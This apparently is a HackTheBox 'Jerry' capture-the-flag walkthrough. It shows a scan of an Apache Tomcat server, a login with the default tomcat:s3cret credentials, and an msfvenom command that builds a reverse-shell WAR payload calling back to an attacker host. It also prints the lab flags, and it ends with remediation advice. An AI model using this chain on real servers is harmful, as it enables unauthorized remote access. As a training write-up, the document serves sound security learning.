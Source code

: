 
<p align="center">
  <img src="./screenshots/jerry_logo.png" alt="jerry_logo"/>
</p>

---

- 🎯 **Target:** HackTheBox - Jerry Windows
- 🧑‍💻 **Author:** `sonyahack1`
- 📅 **Date:** 04.03.2025
- 📊 **Difficulty:** Easy
- 📁 **Category:** Web vulnerabilities
- 💻 **Platform:** Windows

---

## Table of Contents

- [Summary](#summary)
- [Reconnaissance](#%EF%B8%8F--reconnaissance)
- [Entry Point](#-entry-point--initial-access)
- [Conclusion](#-conclusion)

---

## Summary

| Stage         | Info                               	    |
|---------------|-------------------------------------------|
|   User Flag   | `flag{7004dbcef0f854e0fb401875f26ebd00}`  |
|   Root Flag   | `flag{04a8b36e1545a455393d067e772fe90e}`  |
|  Credentials  | `tomcat:s3cret`	                    |
|   Technique   | `Insecure Files Upload Attack`	    |

---

> add the machine's IP address to /etc/hosts:

```bash

echo '10.10.10.95 jerry.htb' | sudo tee -a /etc/hosts

```

---
## 🕵️  Reconnaissance

> I scan the target for open ports and services via `nmap`:

```bash

sudo nmap -sVC -p- -vv -T5 jerry.htb -oN jerry_tcp_scan

```
> Results:

```bash

8080/tcp open  http    syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat

```

> Scanning showed only one open port `8080`.
> Open in browser:

![tomcat_main_web](./screenshots/tomcat_main_web.png)

> We see the start page of the Apache Tomcat web server

> Go to `Manager App` since that is where the list of all deployed applications is located in **Tomcat**

![tomcat_app](./screenshots/tomcat_app.png)

> But you can’t just get there - this functionality requires elevated privileges (for example, administrator).

![tomcat_access_denied](./screenshots/tomcat_access_denied.png)

> Ok. I Need credentials.

> I found a **wordlist** with credentials for `Tomcat` that can be installed by default:

![tomcat_creds](./screenshots/tomcat_creds.png)

> Using the enumeration method I found the correct pair - `tomcat`:`s3cret`.

> Go to `Manager App`

![tomcat_manager_app](./screenshots/tomcat_manager_app.png)

> I see a list of deployed applications as well as the functionality for adding a new **Java** application. `Tomcat` allows you to download certain types of files - so-called `.war` archives
> which it can independently deploy and display in the list of applications.

---
## 🚪 Entry Point / initial access

---
**Note:** `.war` is a special file format (extension) designed for deploying **Java** applications on `Apache Tomcat` servers. This format is correct for `Tomcat` since it contains all the
necessary components for deploying and running the application itself - `JSP files`, `servlets`, `HTML pages`, `static resources` and `configuration files`.
---

> If there is no filtering or validation of uploaded files on the server side, then having access to the web applications administration panel I can implement an attack of the `Insecure File Upload` type
> which will allow me to gain access to the system.

> Since the application deployment functionality can only accept `.war` files for upload I will generate a suitable payload for the `.war` file via `msfvenom`:

```bash

msfvenom -p java/shell_reverse_tcp LHOST=10.10.14.15 LPORT=4444 -f war -o reverse.war

Payload size: 13033 bytes
Final size of war file: 13033 bytes
Saved as: reverse.war

```

> Uploading the finished `.war` archive to the server:

![tomcat_deploy](./screenshots/tomcat_deploy.png)

> Our downloaded `reverse` appeared in the list of applications.

> I launch the listener and open `reverse` in the browser to activate the payload:

![tomcat_reverse](./screenshots/tomcat_reverse.png)

> Reverse Shell:

![tomcat_admin](./screenshots/tomcat_admin.png)

---
**Note:** `Insecure File Upload` is a web vulnerability that exploits the ability of web applications to expand using user information using functions
to upload something to the server - `files`, `pictures`, `documents`, etc. If the data uploaded by the user is not filtered and checked properly, this can
lead to the execution of arbitrary malicious code on the server side.
---

> Flags are in the directory `C:\Users\Administrator\Desktop\flags`:

```bash

C:\apache-tomcat-7.0.88>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt"
user.txt
7004dbcef0f854e0fb401875f26ebd00

root.txt
04a8b36e1545a455393d067e772fe90e
C:\apache-tomcat-7.0.88>

```

> Machine is pwned.

---
## 🧠 Conclusion

> During the machine walkthrough a running `Apache Tomcat` web server was detected on port `8080`. Access to the application administration panel was obtained by exploiting
> `insecure default credentials`. The lack of any filtering when uploading files to the server resulted in access to the system with Administrator privileges by obtaining a
> reverse shell through uploading a `.war` archive containing malicious code. The `Insecure File Upload` vulnerability is dangerous because it allows easy access to the system
> without being an Administrator.

> To eliminate the vulnerabilities, it is necessary to:

- 1) Implement full control over access rights. Do not use default credentials to avoid unauthorized access to the administration functionality. Users
- should not have excessive privileges.

- 2) Be sure to implement `verification of uploaded files`. It is necessary to strictly check and limit the upload of `.war` files.

<p align="center">
  <img src="./screenshots/solved_machine.png" alt="solved_mschine"/>
</p>
